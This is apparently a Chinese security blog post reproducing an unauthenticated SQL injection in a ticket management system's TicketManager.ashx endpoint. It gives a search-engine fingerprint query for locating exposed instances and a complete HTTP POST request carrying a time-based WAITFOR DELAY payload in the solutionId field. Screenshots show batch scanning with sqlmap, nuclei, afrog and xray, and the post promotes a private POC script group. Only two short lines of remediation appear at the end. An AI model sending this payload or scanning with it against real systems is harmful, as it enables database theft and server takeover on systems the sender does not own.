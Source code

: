 #  【漏洞复现】某成科信票务管理系统 TicketManager.ashx SQL注入漏洞   
Superhero  Nday Poc   2024-08-25 19:38  
  
**0x00 免责声明**  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
**0x01 产品简介**  
  
  
某成科信票务管理系统是专注于演出剧院、体育场馆、旅游景区、游乐园、场地活动的票务管理系统,并为特殊客户量身定制票务应用解决方案，可根据用户的要求采用不同的技术载体实现门票的防伪：二维条码门票防伪技术、RFID电子门票防伪技术、手机二维码门票技术、变温微缩文字荧光等防伪票纸技术。根据票务系统应用环境的不同,系统的检票环节可定制为全自动闸机检票、手持终端机检票、无色荧光检测器等检票方式,也可多种方式并存。  
  
**0x02 漏洞概述**  
  
  
某成科信票务管理系统 TicketManager.ashx 接口处存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。  
  
**0x03 搜索引擎**  
```
icon_hash="1632964065" || icon_hash="-2142050529"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOmScwnqdicemLJnUHW9ho1HbJ9RDoIReXbBXj8lNkxj9iaDTiaXkp0esbIia5hSajJicNVNFIPwaN60A/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04 漏洞复现**  
```
POST /SystemManager/Api/TicketManager.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Connection: close
 
Method=GetReServeOrder&solutionId=1' WAITFOR DELAY '0:0:5'--
```  
  
‍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOmScwnqdicemLJnUHW9ho1tJFfd9KTfddtsROT2pX7qGFnXyNN3Oz5PRkiaOjLiboiaRUkHiao02T1TA/640?wx_fmt=png&from=appmsg "")  
  
sqlmap验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOmScwnqdicemLJnUHW9ho1XUxRtoE7dVzfexeLUqErhmy87f4PcRb0d6377KjGIQw9v9oK6EEt8w/640?wx_fmt=png&from=appmsg "")  
  
  
**0x05 工具批量**  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOmScwnqdicemLJnUHW9ho1a3q0Pv9b5X3BklPp3UkoOMm9rj17lmEIt6x32T7tc3S6Ne6AkY1Wibw/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOmScwnqdicemLJnUHW9ho1HjcofmXKAuNk22eHCE7d9BTq0F8BicnoMo0UlDicINCeHqtl10Qibjuqw/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOmScwnqdicemLJnUHW9ho1PcnracRrRp6PWXtpU2Kyky2UsLTPH8NzfKuSCYjLKGFUrtdz0LMd3Q/640?wx_fmt=png&from=appmsg "")  
  
POC脚本获取  
  
请使用VX扫一扫加入内部  
POC脚本分享圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
**0x06 修复建议**  
  
1、关闭互联网暴露  
面或接口设置访问权限  
  
2、⼚商已发布了漏洞修复程序，请及时关注更新：  
  
http://zckx.yyalf.com/  
  
